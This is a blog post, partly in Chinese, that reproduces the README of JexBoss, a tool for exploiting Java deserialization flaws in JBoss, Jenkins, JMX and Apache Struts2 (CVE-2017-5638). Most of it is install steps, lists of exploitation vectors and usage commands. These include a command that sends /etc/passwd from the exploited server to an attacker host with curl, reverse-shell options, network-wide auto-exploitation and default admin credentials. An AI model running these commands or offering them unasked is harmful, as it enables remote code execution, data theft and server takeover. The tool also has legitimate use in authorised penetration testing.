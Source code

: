 ```yaml
---
author: heh3.org
comments: true
date: 2017-03-30 05:28:02+00:00
layout: post
link: http://heh3.org/?p=84
slug: jexboss-jboss-and-others-java-deserialization-vulnerabilities-verify-and-exploitation-tool
title: JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and
  EXploitation Tool
wordpress_id: 84
categories:
- tools
tags:
- jboss
- jexboss
- s2-045
- 反序列化
---
```


JexBoss是一个测试JBOSS和其他一些java平台框架漏洞的工具（java反序列化漏洞）

安装


#### Installation on Linux\Mac



    
    <code>git clone https://github.com/joaomatosf/jexboss.git
    cd jexboss
    pip install -r requires.txt
    python jexboss.py -h
    python jexboss.py -host http://target_host:8080
    
    OR:
    
    Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
    unzip master.zip
    cd jexboss-master
    pip install -r requires.txt
    python jexboss.py -h
    python jexboss.py -host http://target_host:8080
    </code>




#### Installation on Windows



    
    <code>git clone https://github.com/joaomatosf/jexboss.git
    cd jexboss
    pip install -r requires.txt
    python jexboss.py -h
    python jexboss.py -host http://target_host:8080
    </code>


特性：
java反序列化漏洞检测，支持多种java平台与应用

（例如：



 	
  1. java server faces-jsf，

 	
  2. Seam framework，

 	
  3. RMI over HTTP,

 	
  4. Jenkins CLI RCE (cve-2015-5317),

 	
  5. Remote JMX(CVE--2016-3427,CVE-2016-8735)）

 	
  6. Apache struts2(RCE)(CVE-2017-5638)


The exploitation Vectors are:

    
    <code>/admin-console
    tested and working in JBoss versions 5 and 6
    /jmx-console
    tested and working in JBoss versions 4, 5 and 6
    /web-console/Invoker
    tested and working in JBoss versions 4, 5 and 6
    /invoker/JMXInvokerServlet
    tested and working in JBoss versions 4, 5 and 6
    Application Deserialization
    tested and working against multiple java applications, platforms, etc, via HTTP POST Parameters
    Servlet Deserialization
    tested and working against multiple java applications, platforms, etc, via servlets that process serialized objets (e.g. when you see an "Invoker" in a link)
    Apache Struts2 CVE-2017-5638
    tested in Apache Struts 2 applications
    Others
    </code>


用法示例：
Usage examples

For Java Deserialization Vulnerabilities in a custom HTTP parameter and to send a custom command to be executed on the exploited server:

    
    <code>$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'
    </code>


For Java Deserialization Vulnerabilities in a custom HTTP parameter and to make a reverse shell (this will ask for an IP address and port of your remote host):

    
    <code>$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name
    </code>


For Java Deserialization Vulnerabilities in a Servlet (like Invoker):

    
    <code>$ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize
    </code>


For Apache Struts 2 (CVE-2017-5638)

    
    <code>$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
    </code>


For Apache Struts 2 (CVE-2017-5638) with cookies for authenticated resources

    
    <code>$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2 --cookies "JSESSIONID=24517D9075136F202DCE20E9C89D424D"
    </code>


Auto scan mode:

    
    <code>$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
    </code>


File scan mode:

    
    <code>$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
    </code>


More Options:

    
    <code>optional arguments:
      -h, --help            show this help message and exit
      --version             show program's version number and exit
      --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                            PERMISSION!!!)
      --disable-check-updates, -D
                            Disable two updates checks: 1) Check for updates
                            performed by the webshell in exploited server at
                            http://webshell.jexboss.net/jsp_version.txt and 2)
                            check for updates performed by the jexboss client at
                            http://joaomatosf.com/rnp/releases.txt
      -mode {standalone,auto-scan,file-scan}
                            Operation mode (DEFAULT: standalone)
      --app-unserialize, -j
                            Check for java unserialization vulnerabilities in HTTP
                            parameters (eg. javax.faces.ViewState, oldFormData,
                            etc)
      --servlet-unserialize, -l
                            Check for java unserialization vulnerabilities in
                            Servlets (like Invoker interfaces)
      --jboss               Check only for JBOSS vectors.
      --jenkins             Check only for Jenkins CLI vector.
      --jmxtomcat           Check JMX JmxRemoteLifecycleListener in Tomcat
                            (CVE-2016-8735 and CVE-2016-8735). OBS: Will not be
                            checked by default.
      --proxy PROXY, -P PROXY
                            Use a http proxy to connect to the target URL (eg. -P
                            http://192.168.0.1:3128)
      --proxy-cred LOGIN:PASS, -L LOGIN:PASS
                            Proxy authentication credentials (eg -L name:password)
      --jboss-login LOGIN:PASS, -J LOGIN:PASS
                            JBoss login and password for exploit admin-console in
                            JBoss 5 and JBoss 6 (default: admin:admin)
      --timeout TIMEOUT     Seconds to wait before timeout connection (default 3)
    
    Standalone mode:
      -host HOST, -u HOST   Host address to be checked (eg. -u
                            http://192.168.0.10:8080)
    
    Advanced Options (USE WHEN EXPLOITING JAVA UNSERIALIZE IN APP LAYER):
      --reverse-host RHOST:RPORT, -r RHOST:RPORT
                            Remote host address and port for reverse shell when
                            exploiting Java Deserialization Vulnerabilities in
                            application layer (for now, working only against *nix
                            systems)(eg. 192.168.0.10:1331)
      --cmd CMD, -x CMD     Send specific command to run on target (eg. curl -d
                            @/etc/passwd http://your_server)
      --windows, -w         Specifies that the commands are for rWINDOWS System$
                            (cmd.exe)
      --post-parameter PARAMETER, -H PARAMETER
                            Specify the parameter to find and inject serialized
                            objects into it. (egs. -H javax.faces.ViewState or -H
                            oldFormData (<- Hi PayPal =X) or others) (DEFAULT:
                            javax.faces.ViewState)
      --show-payload, -t    Print the generated payload.
      --gadget {commons-collections3.1,commons-collections4.0,groovy1}
                            Specify the type of Gadget to generate the payload
                            automatically. (DEFAULT: commons-collections3.1 or
                            groovy1 for JenKins)
      --load-gadget FILENAME
                            Provide your own gadget from file (a java serialized
                            object in RAW mode)
      --force, -F           Force send java serialized gadgets to URL informed in
                            -u parameter. This will send the payload in multiple
                            formats (eg. RAW, GZIPED and BASE64) and with
                            different Content-Types.
    
    Auto scan mode:
      -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
      -ports PORTS          List of ports separated by commas to be checked for
                            each host (eg. 8080,8443,8888,80,443)
      -results FILENAME     File name to store the auto scan results
    
    File scan mode:
      -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                            line)
      -out FILENAME_RESULTS
                            File name to store the file scan results
    
    reference:https://github.com/joaomatosf/jexboss
    </code><a href="mailto:joaomatosf@gmail.com">joaomatosf@gmail.com</a>
